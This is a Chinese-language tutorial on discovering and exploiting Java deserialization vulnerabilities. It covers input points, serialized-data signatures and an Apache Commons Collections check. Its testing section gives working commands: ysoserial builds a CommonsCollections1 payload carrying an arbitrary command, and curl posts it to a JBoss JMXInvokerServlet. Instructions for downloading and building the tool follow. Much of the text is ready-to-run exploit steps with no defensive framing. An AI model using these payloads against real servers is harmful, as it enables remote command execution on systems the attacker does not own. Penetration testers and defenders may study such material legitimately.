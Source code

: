 
# 漏洞挖掘

**1.漏洞触发场景**

在java编写的web应用与web服务器间java通常会发送大量的序列化对象例如以下场景：

1. HTTP请求中的参数，cookies以及Parameters。
2. RMI协议，被广泛使用的RMI协议完全基于序列化
3. JMX 同样用于处理序列化对象
4. 自定义协议用来接收与发送原始的java对象

**2. 漏洞挖掘**

\(1\)确定反序列化输入点

首先应找出readObject方法调用，在找到之后进行下一步的注入操作。一般可以通过以下方法进行查找：

1\)源码审计：寻找可以利用的“靶点”，即确定调用反序列化函数readObject的调用地点。

2\)对该应用进行网络行为抓包，寻找序列化数据，如wireshark,tcpdump等

注： java序列化的数据一般会以标记（ac ed 00 05）开头，base64编码后的特征为rO0AB。

\(2\)再考察应用的Class Path中是否包含Apache Commons Collections库

\(3\)生成反序列化的payload

\(4\)提交我们的payload数据

# 漏洞测试

```
搜索匹配"readObject"靶点
　　 grep -nr "readObject" *
测试是否含该漏洞的jar包文件
    grep -R InvokerTransformer
生成序列化payload数据
    java -jar ysoserial-0.0.4-all.jar CommonsCollections1 '想要执行的命令' > payload.out
提交payload数据
　　curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@payload.out' http://ip:8080/invoker/JMXInvokerServlet
```

```
exploit例子
java -jar  ysoserial-0.0.2-all.jar   CommonsCollections1  'echo 1 > /tmp/pwned'  >  payload
curl --header 'Content-Type: application/x-java-serialized-object; class="org".jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

```
工具获取方法

去github上下载jar发行版：https://github.com/frohoff/ysoserial/releases
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.2/ysoserial-0.0.2-all.jar

或者自行编译：
git　clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -DskipTests
```
